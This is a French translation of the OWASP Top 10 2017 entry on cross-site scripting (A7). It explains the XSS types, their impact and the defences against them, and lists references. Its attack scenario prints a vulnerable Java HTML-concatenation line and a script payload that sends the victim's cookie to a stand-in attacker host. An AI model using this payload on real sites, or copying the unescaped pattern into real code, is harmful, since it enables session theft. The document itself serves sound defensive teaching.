 # A7:2017 Cross-Site Scripting (XSS)

| Facteurs de Menace/Vecteurs d'Attaque | Vulnérabilités           | Impacts               |
| -- | -- | -- |
| Accès Lvl : Exploitation 3 | Fréquence 3 : Détection 3 | Techniques 2 : Métier ?  |
| Des outils automatisés permettent de détecter et d'exploiter les trois types de XSS et des frameworks d'exploitation gratuits sont disponibles. | XSS est le deuxième problème le plus fréquent de l'OWASP Top 10 et on le retrouve dans près de 2/3 des applications. Les outils automatisés peuvent trouver automatiquement quelques failles XSS, en particulier dans des technologies matures telles que PHP, JEE / JSP, et ASP.NET. | L'impact de XSS est modéré pour les "XSS basés sur DOM" et les "XSS Réfléchis", et grave pour les "XSS Stockés", avec des exécutions à distance dans le navigateur de la victime, comme du vol de comptes d'accès, de sessions, ou de la distribution de logiciel malveillant à la victime. |

## Suis-je Vulnérable ?

Il y a trois types de XSS, ciblant habituellement les navigateurs de victimes:

* **XSS Réfléchi**: L'application ou l'API copie les entrées utilisateur, sans validation ni contrôle des caractères spéciaux, comme partie intégrante de la sortie HTML. Une attaque réussie permet à l'attaquant d'exécuter du HTML et du JavaScript arbitraire dans le navigateur de la victime. Typiquement, l'utilisateur devra interagir avec un lien malicieux redirigeant vers une page contrôlée par l'attaquant, comme un site web malicieux de type "point d'eau", publicitaire, ou équivalent.
* **XSS Stocké**: L'application ou l'API stocke des entrées utilisateur, ni contrôlées ni assainies, qui seront vues ultérieurement par un autre utilisateur ou un administrateur. Ces XSS stockés sont souvent considérés comme un risque élevé, voire critique.
* **XSS basé sur DOM**: Les environnements JavaScript, les applications monopage, et les APIs qui intègrent dynamiquement à la page, des données contrôlables par l'attaquant, sont vulnérables au XSS basé sur DOM. En règle générale, l'application ne doit pas transmettre de données contrôlables par l'attaquant à des APIs Javascript non sûres.

Les attaques habituelles de type XSS sont le vol de session, la prise de contrôle de compte, le contournement MFA, le remplacement ou le défacement de noeud DOM (comme des fenêtres de connexion-cheval de troie), des attaques du navigateur de l'utilisateur tels que des téléchargements de maliciels, des enregistreurs de frappe et autres attaques du client.

## Comment s'en Prémunir ?

Se protéger des attaques XSS nécessite la séparation des données non sûres du contenu actif du navigateur. 
Pour cela:

* Utiliser des frameworks avec des techniques automatiques d'échappements XSS par conception, comme les dernières versions de Ruby on Rails et React JS. Regarder les limitations de protection XSS de votre framework et prendre les mesures appropriées pour couvrir les cas non gérés.
* Appliquer des techniques d'échappement aux données des requêtes HTTP non sûres, selon le contexte des sorties HTML dans lequel elles seront insérées (body, attribute, JavaScript, CSS, ou URL). Cela résoudra les vulnérabilités des XSS Réfléchis ou Stockés. L'[Aide-mémoire de l'OWASP 'Prévention des XSS'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) donne des détails sur les techniques requises d'échappement des données.
* Appliquer un encodage adapté au contexte lors des modifications des documents du navigateur du client est une protection contre les XSS basés sur DOM. Quand cela ne peut être évité, des techniques d'échappement, adaptées au contexte, peuvent être appliquées aux APIs du navigateur comme indiqué dans l'[Aide-mémoire de l'OWASP 'Prévention des XSS basés sur DOM'](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).
* Etablir une [Politique de Sécurité du Contenu (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) comme mesure de défense-en-profondeur limitant les attaques XSS. Cela sera efficace s'il n'y a pas d'autre vulnérabilité qui permettrait de déposer du code malicieux par insertion de fichier en local (e.x. écrasement par attaque de type "traversée de répertoire" ou via des bibliothèques vulnérables des réseaux de diffusion de contenu (CDN) autorisés).

## Exemple de Scénario d'Attaque

**Scénario #1**: L'application utilise des données non sûres dans la construction du fragment de code HTML sans validation ni technique d'échappement:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

L'attaquant remplace le paramètre ‘CC’ du navigateur par:
`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Cette attaque envoie l'ID de session de la victime vers le site web de l'attaquant, lui permettant ainsi de détourner la session active de l'utilisateur.

**Note**: Les attaquants peuvent utiliser XSS pour invalider les défenses automatisées anti Falsification-de-requête-intersite (CSRF) que l'application peut avoir mises en place.

## Références

### OWASP

* [OWASP Contrôles Proactifs: Encoder les Données](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Contrôles Proactifs: Valider les Données](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Standard de Vérification de la Sécurité des Applications: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Guide de Test: Test des XSS Réfléchis](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Guide de Test: Test des XSS Stockés](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Guide de Test: Test des XSS basés sur DOM](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Aide-Mémoire: Prévention du XSS ](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Aide-Mémoire: Prévention du XSS basé sur DOM](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Aide-Mémoire: Contournements de Filtres XSS ](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Projet Java Encodeur](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Externes

* [CWE-79: Neutralisation incorrecte des entrées utilisateurs](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Modèle d'injection côté Client](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
